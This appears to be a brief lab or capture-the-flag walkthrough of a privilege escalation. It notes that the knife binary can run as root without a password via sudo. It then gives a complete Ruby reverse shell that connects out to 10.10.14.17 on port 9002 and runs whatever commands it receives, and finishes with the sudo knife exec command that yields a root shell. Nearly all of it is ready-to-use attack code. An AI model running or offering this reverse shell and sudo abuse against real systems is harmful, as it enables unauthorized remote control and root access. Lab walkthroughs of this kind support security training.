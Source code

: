 * Run sudo -l and see that you can execute the knife binary as root without a password
* make a ruby script for a reverse shell
```ruby
#!/usr/bin/env ruby

require 'socket'
require 'open3'

#Set the Remote Host IP
RHOST = "10.10.14.17" 
#Set the Remote Host Port
PORT = "9002"

#Tries to connect every 20 sec until it connects.
begin
sock = TCPSocket.new "#{RHOST}", "#{PORT}"
sock.puts "We are connected!"
rescue
  sleep 20
  retry
end

#Runs the commands you type and sends you back the stdout and stderr.
begin
  while line = sock.gets
    Open3.popen2e("#{line}") do | stdin, stdout\_and\_stderr |
              IO.copy\_stream(stdout\_and\_stderr, sock)
              end  
  end
rescue
  retry
end
```
* Run command to get root shell:
	* sudo knife exec *shell.rb*